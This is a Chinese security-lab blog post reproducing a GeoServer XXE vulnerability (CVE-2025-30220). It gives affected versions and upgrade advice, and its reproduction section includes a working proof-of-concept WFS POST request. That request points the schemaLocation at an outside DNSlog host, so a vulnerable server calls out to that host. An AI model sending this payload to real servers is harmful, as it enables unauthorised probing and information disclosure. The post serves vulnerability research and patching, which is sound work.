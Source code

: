 #  【成功复现】GeoServer XXE漏洞 (CVE-2025-30220)  
弥天安全实验室  弥天安全实验室   2025-06-23 14:26  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqn5NvJgGnNQwacrZB540jE45Kg1jkDnNRqBHzgDeSsnHYK3ROrZicEQg/640?wx_fmt=png&from=appmsg "")  
  
       
  
GeoServer是GeoServer开源的一个用 Java 编写的开源软件服务器。允许用户共享和编辑地理空间数据。  
  
GeoServer存在代码问题漏洞，该漏洞源于XML外部实体处理不当，可能导致信息泄露。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
GeoTools: "29.0<=GeoTools<=31.6, <28.6.1"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqKJlFSaX6ichQD9d7q75DRJib0XdazrEV7CLSI5K1X3uNwNRxLzcial1tA/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqxVEgxFpX2jE6jfPezCW55L4os99IPcPUumxw0qsOQicvF31g9NbLKPA/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
```
POST /geoserver/wfs HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Fedora; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 353
Content-Type: application/xml
Accept-Encoding: gzip

<wfs:GetFeature service="WFS" version="1.0.0"
xmlns:wfs="http://www.opengis.net/wfs"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:topp="http://www.openplans.org/topp"
xsi:schemaLocation="http://a http://xjsackqijs.lfcx.eu.org/xxe.xsd"
outputFormat="KML">
<wfs:Query typeName="topp:states"/>
</wfs:GetFeature>
```  
  
        通过DNSlog回显，判断漏洞存在  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJqBIhcXsSH3q8Eaiby40puicsSKsdKE6D4xZONxQsrWLich9zzTsWMGUTZg/640?wx_fmt=png&from=appmsg "")  
  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDvdqOZcpaib7wQRrZ0CbDJq5Oia2ePfs861mCWDIIKc5tXSyGlRibmnmKHQtr5wYKkIAWmRkBzB30RQ/640?wx_fmt=png&from=appmsg "")  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
可以使用以下命令查看版本：`mvn dependency:list | grep geotools`。  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！                       
```
https://geoserver.org/download/
https://github.com/geoserver/geoserver/releases/tag/2.27.1
```  
  
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
  
   弥  天  
  
安全实验室  
  
![Image](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
